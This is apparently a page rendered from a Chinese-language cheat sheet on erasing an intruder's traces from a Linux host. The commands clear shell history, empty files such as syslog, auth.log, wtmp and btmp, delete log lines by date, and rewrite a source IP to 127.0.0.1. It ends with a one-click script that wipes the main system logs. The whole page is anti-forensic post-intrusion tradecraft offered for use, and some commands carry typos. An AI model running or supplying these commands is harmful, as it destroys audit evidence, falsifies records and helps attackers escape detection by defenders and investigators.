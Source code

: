 1. 基础代码（有权限要求）

   ```
   histroy -r      #删除当前会话历史记录
   history -c      #删除内存中的所有命令历史
   rm .bash_history  #删除历史文件中的内容
   HISTZISE=0      #通过设置历史命令条数来清除所有历史记录
   ```

2. 完全删除日志文件（有权限要求）

   ```
   cat /dev/null > filename
   : > filename
   \> filename
   echo "" > filename
   echo > filename
   ```

3. 针对性删除日志文件（有权限要求）

   ```
   // 删除当天日志
   sed  -i '/当天日期/'d  filename
   ```

4. 篡改日志文件（有权限要求）

   ```
   将所有172.16.13.1ip替换为127.0.0.1
   sed -i 's/172.16.13.1/127.0.0.1/g'
   ```

5. 一键清除脚本

   ```
   #!/usr/bin/bash
   echo > /var/log/syslog
   echo > /var/log/messages
   echo > /var/log/httpd/access_log
   echo > /var/log/httpd/error_log
   echo > /var/log/xferlog
   echo > /var/log/secure
   echo > /var/log/auth.log
   echo > /var/log/user.log
   echo > /var/log/wtmp
   echo > /var/log/lastlog
   echo > /var/log/btmp
   echo > /var/run/utmp
   rm ~/./bash_history
   history -c
   ```

   